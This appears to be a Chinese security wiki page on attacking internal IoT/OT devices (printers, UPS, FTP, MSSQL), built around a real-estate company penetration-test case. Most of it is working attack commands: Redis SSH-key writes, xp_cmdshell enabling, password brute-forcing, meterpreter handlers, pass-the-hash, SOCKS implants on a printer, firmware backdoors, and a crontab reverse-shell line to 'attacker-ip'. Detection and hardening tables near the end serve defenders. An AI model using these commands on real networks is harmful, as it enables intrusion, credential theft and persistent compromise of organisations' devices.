

## 概述

在内网渗透测试中，IoT/OT 设备（打印机、UPS、网络摄像头、FTP 服务器、数据库服务等）往往因运维疏忽、默认配置未变更、弱口令策略缺失等原因，成为攻击者**最易突破的边界**与**最隐蔽的跳板**。本页面以某房地产公司内网渗透实战为核心案例，结合通用攻击面分析，梳理从**信息收集 → 凭证获取 → 设备失陷 → 横向移动 → 持久化**的完整攻击链，并给出检测与加固建议。

> **核心观点**：IoT/OT 设备并非“边缘资产”，而是内网攻击面的核心组成部分。其失陷往往意味着攻击者已获得**网络层与应用层的双重立足点**，可绕过传统边界防护直接触达核心业务区。

---

## 一、常见内网 IoT/OT 设备攻击面清单

| 设备类型 | 典型端口/服务 | 高频漏洞类型 | 实战利用价值 |
|---|---|---|---|
| **网络打印机/多功能一体机** | 9100 (RAW), 515 (LPD), 631 (IPP), 80/443 (Web管理), 161 (SNMP) | 默认口令、未授权 Web 管理、SNMP 信息泄露、固件 RCE (CVE-2021-3438 等) | 文件读取/写入（打印任务劫持）、内网扫描跳板、凭证窃取 (LDAP/SMB 配置) |
| **UPS/PDU 电源管理设备** | 80/443 (Web), 22 (SSH), 23 (Telnet), 161 (SNMP), 623 (IPMI) | 默认口令 (admin/admin, apc/apc)、未授权重启/关机、固件旧漏洞 | 物理层拒绝服务、网络设备强制重启掩盖痕迹、横向移动跳板 |
| **FTP/NAS 存储服务** | 21 (FTP), 22 (SFTP), 445 (SMB), 80/443 (WebDAV) | 匿名登录、弱口令、目录遍历、写入权限配置不当 | 窃取/投放恶意文件、凭证文件搜集、WebShell 投放、数据外泄通道 |
| **数据库服务 (MSSQL/MySQL/Oracle/PostgreSQL/Redis)** | 1433/3306/1521/5432/6379 | 空/弱 sa/root 账号、xp_cmdshell/UDF 提权、未授权访问 (Redis) | 直接获取 SYSTEM/root 权限、命令执行、横向移动核心跳板 |
| **网络摄像头/NVR** | 80/443, 554 (RTSP), 8000 (Hikvision SDK), 37777 (Dahua) | 默认口令、未授权 RCE (CVE-2017-7921 等)、RTSP 未授权取流 | 视频监控盲区制造、内网摄像头组网跳板、固件植入持久化 |
| **VoIP 网关/IP 电话** | 5060/5061 (SIP), 80/443, 2000 (SCCP) | 默认口令、SIP 注册劫持、固件漏洞 | 通话窃听、内网语音网段跳板、社工钓鱼素材收集 |
| **工控设备 (PLC/HMI/SCADA/网关)** | 502 (Modbus), 102 (S7), 44818 (EtherNet/IP), 80/443 | 无认证协议、默认口令、固件旧漏洞 | 生产网直连、物理过程影响、IT-OT 边界跨越 |

---

## 二、核心漏洞利用手法分类

### 未授权访问 / 匿名访问
- **FTP 匿名登录**：`ftp <IP> → user: anonymous → pass: <任意>` → 列目录/上传/下载
- **Redis 未授权**：`redis-cli -h <IP> → CONFIG SET dir /root/.ssh → CONFIG SET dbfilename authorized_keys → 写入公钥 → SSH 免密登录`
- **打印机/摄像头 Web 管理无需认证**：直接访问 `/admin`、`/config`、API 端点
- **数据库空密码/弱口令**：`sa/空`、`root/root`、`postgres/postgres`

### 默认/弱口令爆破
| 工具 | 典型命令示例 |
|---|---|
| **Hydra** | `hydra -L users.txt -P pass.txt -s 1433 mssql://<IP>` |
| **Medusa** | `medusa -h <IP> -U users.txt -P pass.txt -M ftp` |
| **CrackMapExec (CME)** | `cme smb <CIDR> -u administrator -p 'Password1' --local-auth` |
| **MSF 模块** | `auxiliary/scanner/mssql/mssql_login` `auxiliary/scanner/ftp/ftp_login` |
| **自定义字典** | 结合企业命名规则：`公司拼音+年份`、`Admin@2023`、`公司简称+123!@#` |

> **实战技巧**：优先使用 **Password Spraying**（单密码多账号）规避锁定策略；再结合 **Kerberos Pre-Auth** 离线爆破（AS-REP Roasting）。

### 默认配置与功能滥用
- **MSSQL `xp_cmdshell`**：`EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC xp_cmdshell 'whoami'`
- **MySQL UDF 提权**：导出 `lib_mysqludf_sys.dll/so` → `CREATE FUNCTION sys_exec RETURNS INT SONAME 'lib_mysqludf_sys.so'`
- **打印机 SNMP 读写社区字符串**：`snmpwalk -c public -v2c <IP> 1.3.6.1.4.1.11.2.3.9.4.2.1.1.12` (HP JetDirect 固件版本泄露)
- **UPS/Web 管理默认账号**：`apc/apc`、`admin/1234`、`admin/admin` → 直接控制电源策略

### 会话传递与隧道复用
| 场景 | 工具/技术 | 关键点 |
|---|---|---|
| **MSF → CS** | `msfconsole → use exploit/multi/handler → set payload windows/x64/meterpreter/reverse_https → run` → `meterpreter > load kiwi` → `getsystem` → `execute -f c:\path\to\beacon.exe -a "ip port"` | 利用 MSF 稳健上线，再把 Beacon 当作“干净”会话 |
| **Socks 代理进内网** | `msf > route add <target_subnet> <session_id>` → `use auxiliary/server/socks_proxy` / `proxychains` / `nmap -sS -Pn -p- --proxy socks5://127.0.0.1:1080` | CS 亦可 `socks 1080` 直连 |
| **端口转发/隧道** | `ssh -R 8080:127.0.0.1:80 user@jump` / `frp` / `nps` / `reGeorg` / `tunna` | 穿透 NAT/防火墙访问内网 Web 管理口 |
| **凭证复用 (Pass-the-Hash/Ticket)** | `pth-winexe -U administrator%<NTLM> //<IP> cmd.exe` / `Rubeus.exe asktgt /user:admin /rc4:<NTLM> /ptt` | 从 `lsass`/NTDS.dit/注册表/配置文件中导出哈希/票据 |

---

## 三、实战案例复盘：某房地产公司内网渗透

> **来源**：火线 Zone 文章《某房地产公司内网渗透测试》  
> **攻击路径**：弱口令文件上传 → WebShell → Godzilla → MSF → CS → 内网代理 → 密码喷射 → MSSQL/打印机/FTP/UPS 失陷

### 初始突破与会话建立
1. **信息收集**：发现弱口令文件上传点，上传 WebShell（Godzilla 动态加密流量绕过 WAF）。
2. **会话传递**：
   - Godzilla 执行 `msfvenom` 生成的 Loader 上线 **Meterpreter**（Session 1）。
   - 同主机启动 **Cobalt Strike Beacon**（Session 2），后续全部在 CS 操作，MSF 仅作跳板。
3. **本地提权/信息收集**：`systeminfo`、`net view`、`wmic qfe`、`reg query`、`SharpHound` 收集域信息。

### 内网横向：凭证喷射与服务失陷
| 目标 | 漏洞类型 | 利用过程 | 权限获取 |
|---|---|---|---|
| **主机 A (192.168.x.x)** | 本地管理员弱口令 | `administrator / aiyuyuan` 密码喷射成功 | SYSTEM (本地) |
| **MSSQL 服务器** | `sa` 空密码 + `xp_cmdshell` | `sqlcmd -S <IP> -U sa -P ""` → 开启 `xp_cmdshell` → `EXEC xp_cmdshell 'whoami'` | `NT AUTHORITY\SYSTEM` |
| **网络打印机** | Web 管理未授权访问 | 直接访问 `http://<IP>/` → 进入管理后台 → 固件版本/网络配置/SNMP 社区字符串泄露 | 设备管理权限 (可读写配置、固件升级) |
| **FTP 服务** | 匿名登录 `anonymous` | `ftp <IP>` → `ls`/`get`/`put` → 发现备份脚本含数据库连接串 | 文件读写权限 (可投放 WebShell/脚本) |
| **UPS 管理服务** | 服务器部署的管理软件默认口令 | 访问 `http://<IP>:<Port>/` → `admin/admin` 登录 → 可执行关机/重启/电池测试 | 物理电源控制权 |

### 攻击链复盘图解



### 关键利用细节与工具命令

```bash
# 1. MSF 建立 Socks 代理
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > run -j

# 2. Proxychains 配置 /etc/proxychains4.conf
# socks5 127.0.0.1 1080

# 3. 内网 MSSQL 爆破 (CME)
proxychains cme mssql 192.168.10.0/24 -u sa -p '' --local-auth

# 4. 开启 xp_cmdshell (sqlcmd)
proxychains sqlcmd -S 192.168.10.50 -U sa -P "" -Q "EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;"

# 5. 命令执行验证
proxychains sqlcmd -S 192.168.10.50 -U sa -P "" -Q "EXEC xp_cmdshell 'whoami && hostname && ipconfig'"

# 6. 打印机 SNMP 信息收集
proxychains snmpwalk -c public -v2c 192.168.10.100 1.3.6.1.2.1.43.10.2.1.4  # 耗材信息
proxychains snmpwalk -c private -v2c 192.168.10.100 1.3.6.1.4.1.11.2.3.9.1   # HP 专有 MIB

# 7. FTP 匿名登录自动化
proxychains nmap -p 21 --script ftp-anon 192.168.10.0/24

# 8. UPS 默认口令尝试 (HTTP Basic / Form)
proxychains hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.10.200 http-get /login
```

---

## 四、将 IoT/OT 设备转化为横向移动跳板与持久化据点

### 跳板化技术
| 技术 | 适用设备 | 实现要点 |
|---|---|---|
| **SSH 隧道/端口转发** | 支持 SSH 的 UPS/NAS/摄像头/Linux 网关 | `ssh -L 0.0.0.0:8080:192.168.20.50:80 user@iot-device` 将内网 Web 管理口映射到攻击机 |
| **Socks 代理部署** | 可执行二进制的 Linux 设备 (OpenWrt, 嵌入式 Linux) | 交叉编译 `gost`/`frpc`/`npc`/`socks5` 守护进程，植入启动项 (`/etc/rc.local`, `systemd`, `crontab`) |
| **流量转发 (Rport/Chisel/ligolo-ng)** | 任意可出网设备 | `chisel client iot-ip:8080 R:socks` 反向 Socks 隧道，无需设备入站端口 |
| **WebShell/后门植入** | 运行 Web 服务的打印机/NAS/UPS/摄像头 | 在可写目录写入 `php/jsp/asp/aspx` 一句话，或替换固件 CGI 脚本 |
| **计划任务/服务劫持** | Linux 嵌入式设备 | `crontab -e` → `@reboot /tmp/.bd -c attacker-ip:443`；或劫持 `dropbear`/`lighttpd` 启动脚本 |

### 持久化手法 (IoT/OT 专用)
1. **固件级植入**：解包固件 (`binwalk -Me firmware.img`) → 注入 SSH 公钥/启动脚本/后门二进制 → 重打包 → 通过 Web 升级/ TFTP 刷入。
2. **配置文件篡改**：修改 `/etc/passwd`/`/etc/shadow` 添加 root 账号；修改 `inetd.conf`/`xinetd.d` 开启 Telnet/Shell 端口。
3. **证书/密钥窃取与复用**：导出设备自带的 SSL 证书私钥、SNMPv3 认证密钥、IPMI K_g、802.1X 证书，供后续中间人/重放攻击。
4. **隐蔽通道建立**：利用 **DNS 隧道 (iodine/dnscat2)**、**ICMP 隧道 (ptunnel)**、**Modbus/CoAP/MQTT 协议载荷隐写** 绕过流量审计。
5. **供应链/固件更新劫持**：若设备支持 OTA 且未签名校验，可搭建伪造升级服务器 (DNS 劫持/静态路由) 推送恶意固件。

### 实战组合拳示例
> **场景**：已控制一台 HP LaserJet 打印机 (Linux 嵌入式)，内网另一段有域控 (192.168.30.10) 但无直连路由。
```bash
# 1. 打印机植入 Gost Socks5 服务 (交叉编译 ARM/MIPS)
scp gost_linux_arm root@printer:/tmp/gost
ssh root@printer "chmod +x /tmp/gost && nohup /tmp/gost -L socks5://:1080 >/dev/null 2>&1 &"

# 2. 攻击机建立 SSH 反向隧道访问打印机 Socks
ssh -R 10800:127.0.0.1:1080 root@printer -N -f

# 3. 攻击机配置 Proxychains 指向 127.0.0.1:10800
# 4. 通过打印机跳板扫描/攻击 192.168.30.0/24
proxychains nmap -sS -Pn -p 445,135,139,3389 192.168.30.10
proxychains cme smb 192.168.30.10 -u administrator -H <NTLM> --local-auth
```

---

## 五、检测与溯源指标 (IoC/Behavior)

| 维度 | 典型特征 | 检测手段 |
|---|---|---|
| **网络流量** | 非业务时间段设备对外发起长连接 (Socks/SSH/HTTP)；异常端口扫描 (SYN/ACK)；Modbus/CoAP 协议异常载荷 | 流量镜像 + Zeek/Suricata 规则；NetFlow 基线偏离分析 |
| **主机日志** | 打印机/NAS/UPS 登录成功 (admin/root) 后随即执行 `wget/curl/chmod/nohup`；`crontab`/`systemd` 新增条目；固件升级日志非计划时间 | Syslog 集中采集 (Rsyslog/ELK) + Sigma 规则；Wazuh/OSSEC 文件完整性监控 (FIM) |
| **凭证异常** | 同一账号在短时间内从多设备登录失败/成功；`sa`/`root`/`admin` 登录源 IP 非运维网段 | AD/SIEM 关联分析；`EventID 4624/4625` + 设备资产库关联 |
| **固件/配置变更** | 设备固件版本回滚/升级非变更窗口；配置文件哈希变化 (MD5/SHA256) | 定时 `snmpget`/`API` 拉取配置哈希对比；GitOps 管理网络设备配置 |
| **物理异常** | UPS 非预期切换电池/关机；打印机异常打印/卡纸日志激增 | 物理安全系统 (环境监控) 与 IT 监控联动 |

---

## 六、加固与缓解建议 (分层防御)

| 层级 | 措施 | 优先级 |
|---|---|---|
| **资产管理** | 建立 IoT/OT 资产台账 (IP、型号、固件版本、责任人、网段)；接入 CMDB 自动发现 (Nmap/ARP/NDP/被动扫描) | P0 |
| **网络隔离** | **VLAN/微隔离**：IoT/OT 单独网段，仅放行必要业务端口 (ACL/防火墙策略)；禁止直接访问核心数据库/域控网段 | P0 |
| **身份认证** | **强制修改默认口令**；启用 **复杂密码策略**；关键设备配置 **RADIUS/TACACS+** 对接 AD/LDAP；启用 **MFA** (Web 管理/SSH/VPN) | P0 |
| **最小权限** | 禁用/删除无用服务 (Telnet, FTP, SNMP v1/v2c, HTTP)；`xp_cmdshell`/`Ole Automation` 等危险存储过程默认关闭；FTP 仅允许只读/指定目录 | P1 |
| **固件/补丁** | 建立固件版本基线；订阅厂商安全公告；定期窗口期推送签名固件；验证固件签名后再升级 | P1 |
| **监控审计** | 网络流量镜像至 NTA/NDR；设备 Syslog/NetFlow 全量上传 SIEM；部署 **蜜罐** (模拟打印机/UPS/摄像头) 诱捕扫描 | P1 |
| **应急响应** | 制定 IoT/OT 失陷处置预案 (隔离、取证、固件恢复、凭证轮换)；定期演练 | P2 |

---

## 七、交叉引用与延伸阅读

- [[social-engineering-attack-techniques]] — 社会工程学手法常用于获取 IoT 设备管理凭证（钓鱼/水坑攻击）
- [[supply-chain-attack-fundamentals]] — 固件供应链投毒是 IoT/OT 持久化的高级形式
- [[waf-bypass-techniques-case-study-ruijie]] — Web 管理界面 WAF 绕过技巧可复用于 IoT 设备 Web 接口测试
- [[vmware-ubuntu-security-lab-setup]] — 搭建内网渗透实验环境复现 IoT 设备攻击链
- [[ctfd-whale-docker-swarm-frp-deployment]] — 动态靶机环境可部署模拟 IoT 设备服务供练习
- [[cybersecurity-training-resources-guide]] — 系统性学习内网渗透、IoT 安全的课程与资源推荐

---

## 八、小结

> **IoT/OT 设备不是“边缘”，而是内网攻击面的“软肋”。**  
> 实战中，**弱口令、未授权访问、默认配置** 三大类漏洞覆盖了 80% 以上的失陷场景。防御侧应以**资产清单为基础、网络微隔离为核心、强认证与最小权限为抓手、持续监控与应急演练为保障**，构建纵深防御体系。攻击侧则应掌握**会话传递、代理穿透、固件植入、协议隐蔽通道**等技术，将单点失陷转化为全网控制权。

---

*页面维护者：数字知识库策展人 | 最后更新：2024-01-15 | 版本：1.0*

## 来源

- [0x6270安全团队-202203-202304_48](../sources/0x6270安全团队-202203-202304_48.md)
